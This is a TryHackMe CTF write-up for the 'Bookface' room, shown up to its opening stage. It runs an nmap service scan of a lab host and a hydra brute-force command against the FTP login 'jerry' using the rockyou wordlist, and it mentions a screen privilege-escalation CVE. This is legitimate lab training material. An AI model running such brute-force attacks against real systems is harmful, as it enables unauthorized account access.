 ```yaml
---
title: "Bookface"
date: 2020-02-10T14:50:43+01:00
draft: true
tags: ["CTF", "tryhackme"]
---
```


Before we start, read more about following tools & vulnerabilities. It will contains in this CTF
- [hydra](https://www.cyberpunk.rs/password-cracker-thc-hydra)
- [screen](https://www.gnu.org/software/screen/) - [CVE-2017-5618](https://www.cvedetails.com/cve/CVE-2017-5618/)
- [knock](https://linux.die.net/man/1/knock)

and also you can read more about additional security method called [port knocking](https://www.howtogeek.com/442733/how-to-use-port-knocking-on-linux-and-why-you-shouldnt/)

So let's start as usual with __nmap__.
```bash
nmap -F --top-ports 10 -sV 10.10.219.90
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-10 16:37 CET
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Stats: 0:02:57 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 97.16% done; ETC: 16:40 (0:00:00 remaining)
Nmap scan report for 10.10.219.90
Host is up (0.38s latency).

PORT     STATE  SERVICE        VERSION
21/tcp   open   ftp            vsftpd 2.0.8 or later
22/tcp   closed ssh
23/tcp   open   telnet?
25/tcp   open   smtp?
80/tcp   open   http?
110/tcp  open   pop3?
139/tcp  open   netbios-ssn?
443/tcp  open   https?
445/tcp  open   microsoft-ds?
3389/tcp open   ms-wbt-server?
```

After scan, we can see many ports open, but only from FTP we have grabbed banner *vsftpd 2.0.8 or later*. 
From description of this game we know the developer's name: *Jerry*, so we can try brute force attack to FTP server.

```bash
$ hydra -ljerry -P /usr/share/dict/rockyou.txt ftp://10.10.219.90 -t 16  -vV                                        
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-02-10 16:28:50
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344409 login tries (l:1/p:14344409), ~896526 tries per task   
[DATA] attacking ftp://10.10.219.90:21/                   
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done                                                          
[ATTEMPT] target 10.10.219.90 - login "jerry" - pass "" - 1 of 14344409 [child 0] (0/0)                             
[ATTEMPT] target 10.10.219.90 - login "jerry" - pass "     " - 2 of 14344409 [child 1] (0/0)                        
```